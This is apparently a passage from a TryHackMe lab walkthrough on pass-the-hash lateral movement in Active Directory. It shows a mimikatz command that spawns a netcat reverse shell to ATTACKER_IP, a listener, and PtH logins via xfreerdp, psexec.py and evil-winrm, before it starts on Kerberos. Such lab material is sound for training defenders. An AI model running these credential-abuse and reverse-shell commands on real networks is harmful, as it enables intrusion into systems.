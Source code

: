 ```shell-session
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

Notice we usedÂ `token::revert`Â to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work.Â 

This would be the equivalent of usingÂ `runas /netonly`Â but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user.

To receive the reverse shell, we should run a reverse listener on our AttackBox:

```shell-session
user@AttackBox$ nc -lvp 5555
```

Interestingly, if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.

## **Passing the Hash UsingÂ Linux:**

If you have access to aÂ linuxÂ box (like your AttackBox), several tools have built-in support to perform PtH using different protocols. Depending on which services are available to you, you can do the following:

_Connect toÂ RDPÂ using PtH:_

```shell-session
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

_Connect via psexec using PtH:_

```shell-session
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

**Note:**Â Only theÂ linuxÂ version of psexec support PtH.

_Connect to WinRM using PtH:_

```shell-session
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

  

## KerberosÂ Authentication

Let's have a quick look at howÂ KerberosÂ authentication works on Windows networks:

1. The user sends his username and a timestamp encrypted using a key derived from his password to theÂ **Key Distribution Center (KDC)**, a service usually installed on the Domain Controller in charge of creatingÂ KerberosÂ tickets on the network.
    
    The KDC will create and send back aÂ **Ticket Granting Ticket (TGT)**, allowing the user to request tickets to access specific services without passing their credentials to the services themselves. Along with theÂ TGT, aÂ **Session Key**Â is given to the user, which they will need to generate the requests that follow.
    